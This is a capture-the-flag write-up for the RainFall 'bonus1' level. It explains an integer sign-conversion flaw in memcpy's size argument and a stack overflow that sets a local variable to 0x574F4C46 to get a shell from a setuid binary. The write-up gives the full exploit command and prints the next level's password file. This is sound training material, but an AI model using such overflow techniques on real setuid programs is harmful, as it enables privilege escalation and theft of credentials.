bonus1 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

bonus1 rights:
```Shell
bonus1@RainFall:~$ ls -la bonus1 
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

let's decompile it with hex-rays on https://dogbolt.org/ and see what is there:
- the code uses `atoi()` on the first argument and stores it in an integer called `v5`.
- a condition prevents `v5` from being greater than 9, exiting the program if it is.
- later, `v5` is compared to 1464814662, and if they are equal, it gives us access to a shell.
- a call to `memcpy()` is made using a 40-byte buffer as the destination and the second argument as the source, with a size of 4 times the value of `v5`.

as we know that all local variables follow each other in the stack frame, if we are able to overflow our buffer, we could change the value of `v5`, and we need `v5` to be equal to 1464814662 which is 574F4C46 in hexadecimal.

our first argument needs to be equal to 11 if we want to do our buffer overflow with `memcpy`, but due to the condition that follows, we can't pass 11 as an argument directly. `v5` is an `int` so it can be negative but `memcpy` takes a `size_t` as the first parameter, so giving it `v5` with a negative value as the first parameter will overflow the `size_t` making it possible to send a value greater than 9.

We check the value of `SIZE_MAX` and `INT_MIN`.
```Shell
bonus1@RainFall:~$ python -c "import sys; print(sys.maxsize)"
2147483647
bonus1@RainFall:~$ python -c "import struct; print(-(2**(struct.calcsize('i')*8-1)))"
-2147483648
```
`-(SIZE_MAX)` with the overflow should give us 0, so if we want `v5` to be 11, we need to send `-(SIZE_MAX - 11)` as our first parameter. that gives us -2147483636 which is hopefully greater than `INT_MIN`, so it can be contained in `v5`.

Our second argument will be 40 bytes of padding followed by the desired value to overwrite `v5` in little endian notation.

finally, our two arguments will be:
- -2147483636
- $(python -c 'print("A" * 40 + "\x57\x4f\x4c\x46"[::-1])')

And the result is:
```Shell
bonus1@RainFall:~$ ./bonus1 -2147483636 $(python -c 'print("A" * 40 + "\x57\x4f\x4c\x46"[::-1])')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```